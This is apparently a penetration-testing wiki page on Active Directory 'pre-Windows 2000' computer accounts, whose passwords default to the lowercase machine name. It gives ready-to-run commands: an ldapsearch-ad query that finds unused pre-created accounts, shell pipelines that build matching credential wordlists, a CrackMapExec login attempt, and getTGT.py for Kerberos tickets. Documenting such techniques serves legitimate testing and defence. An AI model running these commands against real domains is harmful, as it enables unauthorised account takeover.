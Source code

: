 # Pre-Windows 2000 computers

## Theory

When a new computer account is configured as "pre-Windows 2000 computer", its password is set based on its name (i.e. lowercase computer name without the trailing `$`). When it isn't, the password is randomly generated.

Once an authentication occurs for a pre-Windows 2000 computer, according to [TrustedSec's blogpost](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/), its password will usually need to be changed.

## Practice

Finding computer accounts that have been "pre-created" (i.e. manually created in [ADUC](https://blog.netwrix.com/2017/01/30/active-directory-users-and-computers-aduc/) instead of automatically added when joining a machine to the domain), but have never been used can be done by filtering the `UserAccountControl` attribute of all computer accounts and look for the value 4128 (32|4096) (deductible via the [UserAccountControl](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) flags):

* 32 - `PASSWD_NOTREQD`
* 4096 - `WORKSTATION_TRUST_ACCOUNT`

The `logonCount` attribute can be filtered as well.

The [ldapsearch-ad](https://github.com/yaap7/ldapsearch-ad) tool can be used to find such accounts. Once "pre-created" computer accounts that have not authenticated are found, they should be usable with their lowercase name set as their password. This can be tested with [CrackMapExec](https://github.com/mpgn/CrackMapExec) (Python) for instance.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># 1. find pre-created accounts that never logged on
</strong><strong>ldapsearch-ad -l $LDAP_SERVER -d $DOMAIN -u $USERNAME -p $PASSWORD -t search -s '(&#x26;(userAccountControl=4128)(logonCount=0))' | tee results.txt
</strong>
# 2. extract the sAMAccountNames of the results
cat results.txt | grep "sAMAccountName" | awk '{print $4}' | tee computers.txt

# 3. create a wordlist of passwords matching the Pre-Windows 2000 generation, based on the account names
cat results.txt | grep "sAMAccountName" | awk '{print tolower($4)}' | tr -d '$' | tee passwords.txt

# 4. bruteforce, line per line (user1:password1, user2:password2, ...)
cme smb $DC_IP -u "computers.txt" -p "passwords.txt" --no-bruteforce</code></pre>

> You will see the error message **STATUS\_NOLOGON\_WORKSTATION\_TRUST\_ACCOUNT** when you have guessed the correct password for a computer account that has not been used yet. ([trustedsec.com](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/))

Testers can then change the Pre-Windows 2000 computer accounts' password (i.e. [rpcchangepwd.py](https://github.com/SecureAuthCorp/impacket/pull/1304), [kpasswd.py](https://github.com/SecureAuthCorp/impacket/pull/1189), etc.) in order to use it.

{% hint style="success" %}
Alternatively, Filip Dragovic was able to authenticate using Kerberos without having to change the account's password. ([source](https://twitter.com/filip\_dragovic/status/1524730451826511872))

```bash
getTGT.py $DOMAIN/$COMPUTER_NAME\$:$COMPUTER_PASSWORD
```

The ticket obtained can then be used with [ptt.md](../kerberos/ptt.md "mention")
{% endhint %}

## Reference

{% embed url="https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/" %}

{% embed url="https://web.archive.org/web/20080205233505/http://support.microsoft.com/kb/320187" %}
